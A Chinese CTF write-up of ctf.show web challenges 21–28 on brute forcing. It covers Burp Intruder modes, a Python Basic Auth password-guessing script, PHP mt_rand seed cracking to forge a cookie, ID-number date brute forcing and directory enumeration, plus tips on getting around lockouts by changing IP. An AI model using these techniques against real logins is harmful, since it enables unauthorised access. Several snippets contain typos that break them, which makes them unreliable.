# 知识点：

## 暴力破解原理

暴力破解实际就是疯狂的输入密码进行尝试登录，针对有的人喜欢用一些个人信息当做密码，有的人喜欢用一些很简单的低强度密码，我们就可以针对性的生成一个字典，用脚本或者工具挨个去尝试登录。

## 暴力破解前提

1.没安装waf，或者安装了waf没有开启流量拦截

2.没有规定输入密码多少次后无法继续输入

3.没有验证码，或者验证码生成在数据包中与输入的验证码进行比对。

4.判定输入密码次数等是根据数据包中的ip等判定，我们就可以用字典变换ip去绕过

## burpsuite爆破的四种模式

四种模式分别为：Sniper、Battering ram、Pitchfork、 Cluster bomb(推荐使用)

## 1.Sniper(狙击手)

作为比较常用的模式，Sniper的作用是对其中选定的参数一个一个依次遍历字典并且替换然后测试。sniper只能默认对第一个参数进行修改，而无法对两个参数同时进行爆破。

## 2.Battering ram(攻城锤)

不同于sniper，Battering ram是两个参数同时进行遍历一个字典的

## 3.Pitchfork(草叉模式)

Pitchfork作为多字典，他的特点也非常明显，就是多个字典同时进行，与Battering ram有些相似之处，但是一个是多个人跑一个赛道，而一个是多个人，各有各的赛道。

## 4.Cluster bomb(集束炸弹)(推荐爆破时使用)

Cluster bomb兼备了前面三种模式的所有的功能，那就是全部遍历，不放过所有情况，但是在超大字典的情况下，运算能力就限制了Cluster bomb模式的发挥，所以只要算力足够，那爆破出密码就不是问题。

# web21基础爆破工具的使用

1.查看题目

编辑

是一道登录题，

此题主要考察基础的爆破

## 方法一:bp爆破

1：假设已知用户名是admin

2：打开代理和Burp Suite，随便输入密码尝试登陆同时利用Burp Suite抓包。



### 知识点:Authorization请求头

Authorization请求头用于验证是否有从服务器访问所需数据的权限。

3：得到Authorization: Basic YWRtaW46YWRtaW4= 可以看到他数据包是通过加密发送的，并且前面有Basic,对后面的 进行base64解码查看格为 admin：密码

编辑

4：查看Authorization请求头观察发现是base64编码 我们将请求包发送到intruder中，选择sniper模式。选择base64内容Authorization: Basic YWRtaW46YWRtaW4=，添加为playload position

5：然后payload选择Custom iterator，根据已知格式，我们设置第一组payload位账号：admin，第二组一个冒号:，第三组密码：密码字典。 接下来设置Payload Processing的base64加密，点击add，选择encode>Base64-encode，最后将PayLoad Encoding取消选择urlencode加密特俗字符串。

6：进行爆破，找到长度不同的即为正确答案。

编辑

找到flag。

## 方法二:自动爆破脚本

```python
import time#用于延时
import requests#用于发送请求
import base64#用于base64编码

url = 'http://ededa0b4-a3d7-43f0-9f06-c8db1fce2434.challenge.ctf.show/index.php'#放入url

password = []#密码列表


with open("1.txt", "r") as f:  #读取密码字典/1.txt是字典密码
    while True:#循环读取密码字典
        data = f.readline() #读取一行
        if data:#判断是否为空
            password.append(data)#添加到列表
        else:#判断是否到达文件末尾
            break#结束循环
        
for p in password:#循环遍历密码列表
    strs = 'admin:'+ p[:-1]#拼接用户名和密码
    header={
        'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
    }#设置请求头
    rep =requests.get(url,headers=header)#发送请求
    time.sleep(0.2)#延时0.2秒
    if rep.status_code ==200:#判断请求是否成功

        print(rep.text)#打印响应内容
        break
```

# web23条件爆破

1.查看题目

编辑

## substr()函数:

substr($string, start, length)函数用于从字符串$string中提取从start位置开始的length个字符。如果length省略，则默认提取到字符串的末尾。

- if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)):

检验$token的第2个字符和第15个字符是否相等，第15个字符和第18个字符是否相等

- if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))):

第2个+第15个+第18个=第31个

GET一个参数token，token的MD5加密后的值如果满足下面的判断，就输出flag

## 用爆破脚本

### python脚本

```python
import hashlib#导入hashlib模块
dic = "0123456789qazwsxedcrfvtgbyhnujmikolp"#md5 包含的字符有阿拉伯数字和大小写英文26个字母。

for a in dic:#遍历字典

    for b in dic:#遍历字典
        t = str(a)+str(b)#拼接字符串
        md5 = hashlib.md5(t.encode(encoding='utf-8')).hexdigest()#计算md5值

        if md5[1:2] == md5[14:15] and md5[14:15] == md5[17:18]:#判断md5值是否符合条件

            if int(md5[1:2])+int(md5[14:15])+int(md5[17:18])/int(md5[1:2])==int(md5[31:32]):
                #判断md5值是否符合条件
                print(t)#打印符合条件的字符串
```

### php脚本

```php
<?php
    for($i=0;i<10000;$i++){
        $token=md5($i);
        if(susbtr($token,1,1)===substr($token,14,1)&&substr($token,14,1)===substr($token,17,1)){
            if(intval(substr($token,1,1))+intval(substr($token,14,1))+intval(substr($token,17,1))/intval(substr($token,1,1))===intval(substr($token,31,1))){
                echo $i;
                echo $token;
            }
        }
    }
?>
```


# web24随机数种子爆破

查看题目

编辑

- 这行代码使用mt_srand函数设置随机数生成器的种子为372619038。这意味着每次以相同的种子初始化后，mt_rand()函数生成的随机数序列将是相同的。
- 如果随机数种子定了 那么产生的随机数就是确定的

## 知识点:php伪随机数

### mt_rand()函数

mt_rand()函数使用Mersenne Twister算法生成随机整数。

使用的语法:mt_rand();or mt_rand(min,max);,生成一个区间内的随机数。

其参数min默认为最小值0，max默认为可生成的随机数最大值2147483647，由mt_get randmax()函数获得。

### mt_srand()函数

mt_srand()函数为随机数生成器。提示：从 PHP 4.2.0 开始，随机数生成器自动播种，因此没有必要使用该函数。当不使用随机数播种函数srand时，php也会自动为随机数播种，因此是否确定种子都不会影响正常运行。在php中每一次调用mt_rand()函数，都会检查一下系统有没有播种。（播种为mt_srand()函数完成），当随机种子生成后，后面生成的随机数都会根据这个随机种子生成。所以同一个种子下，随机数的序列是相同的，这就是漏洞点

### php_mt_seed工具:

- php_mt_seed是c语言编写的爆破随机数序列种子的工具

我们做一个实验:

```php
<?php
    mt_srand(0);//设置随机数播种为0
    echo mt_rand();
?>
//每次运行都会获得相同的序列    

<?php
    echo mt_rand();
    ?>
    
    //去掉mt_srand()函数后，系统会自动给rand函数播种，但也是播种一次
    
```


因此这里是伪随机

所以我们根据给出的种子输出得到的序列就是我们的r值，在URL中填进去就能拿到flag了

# web25伪随机数爆破

查看题目

```php
<?php
    error_reporting(0);
    if(isset($_GET['r'])){
        $r = $_GET['r'];
        mt_srand(hexdec(substr(md5($flag), 0,8)));
        $rand = intval($r)-intval(mt_rand());
        if((!$rand)){
            if($_COOKIE['token']==(mt_rand()+mt_rand())){
                echo $flag;            
            }        
        }else {
            echo $rand;        
        }                    
}else{   
        highlight_file(_FILE_);
        echo system('cat /proc/version')
}                                                        
    }?>
```


## mt_srand(hexdec(substr(md5($flag),0,8)));

- 对flag进行MD5哈希处理，从MD5哈希值的开头截取8个字符(即32位中的前16位)，后将处理得到的值进行进制转化，hexdec()函数可以将截取的16位十六进制数转化成十进制数。最后使用转换的十进制数作为种子值来初始化mt_rand()函数的随机数生成器
- if((!$rand)){ if($_COOKIE['token']==(mt_rand()+mt_rand())){echo $flag;

若$rand为0，则执行if语句

## 解题思路:

1.?r=0先回显查看mt_rand()第一次的随机数

2.用php_rand_seed脚本

先用gcc编译脚本gcc -o php_mt_seed php_mt_seed.c

爆破出之前播种的随机数种子的值./php_rand_seed 567219768

编辑

seed选择kali工具得到的结果中php7的结果，然后编写php代码得到cookie的值:

```php
<?php
    mt_srand(3147772674);
    echo mt_rand()."\n";
    echo mt_rand()+mt_rand();
?>
```

在网页cookie中放入得到的值，一个个尝试就可以得到flag了

编辑

# web26数据库连接信息爆破

这题抓包就能拿到flag了，有点抽象

# web27信息收集+日期爆破

打开靶机，发现是个登录页面，需要学号和密码登录，猜测登录后可获得flag，则可围绕获得学号密码来进行，因为两者都不知道，直接爆破不太合适，看看还能提取到什么信息。

编辑

当点击到登录按钮下方的录取名单时，自动下载了一个list.xlsx，打开这个文件，发现了几个人的姓名和身份证号部分信息。点击录取名单下面的学生学籍信息查询系统，发现可以根据学生姓名和身份证号进行录取查询，那么第一步要做的可能就是要爆破身份证号了，或许在这里可以查到有用的信息。

以下载的表格的第一个人为例，录取查询页面姓名栏输入高先伊，身份证输入6210225237

- 打开抓包工具，如Burpsuit，点击查询，抓到查询发送的请求包，将请求包发送至Intruder攻击模块，将请求包中的&p设置为变量



- 设置payload



format那栏一定要写yyyyMMdd对应身份证的年月日，然后就开始爆破

编辑

爆破后找到长度最长的response，可以看到有success，把下面那串编码复制拿去翻译一下

Unicode-str解码: 恭喜您，您已被我校录取，你的学号为02015237 初始密码为身份证号码

然后我们就尝试登录一下，就可以拿到flag了

# web28目录爆破

查看题目

编辑

如果直接输 原url/1/2.txt 之类，会进行302跳转，然后跳转就会进入死循环，最后直接打不开

编辑

## 知识点:302跳转

302跳转又称暂时性转移，当网页临时移到新的位置，而浏览器的缓存没有更新时，就出现了302跳转。

302状态码是临时重定向（Move Temporarily），表示所请求的资源临时地转移到新的位置，一般是24到48小时以内的转移会用到302。

302重定向是临时的重定向，搜索引擎会抓取新的内容而保留旧的网址。因为服务器返回302代码，搜索引擎认为新的网址只是暂时的。

这里我们对url后面两个目录进行爆破

编辑

爆破模式改成Cluster bomb，然后将两个目录添加为变量

编辑

编辑

将两个变量都设置成numbers，从1到100，然后开始爆破，找到200状态码的就是成功的response，拿到flag
